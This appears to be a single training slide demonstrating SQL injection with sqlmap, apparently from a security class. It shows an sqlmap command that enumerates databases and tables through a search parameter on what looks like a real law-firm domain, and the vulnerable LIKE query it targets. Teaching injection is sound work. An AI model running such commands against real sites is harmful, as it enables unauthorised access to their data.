

# Demo 5: SQL injection / SQLMap
Sqlmap -u http://dchlaw.com/dashboard?search=Golf --dbs --tables

Typical SQL Query:
SELECT * FROM reports WHERE some_column LIKE ‘%USER_INPUT%’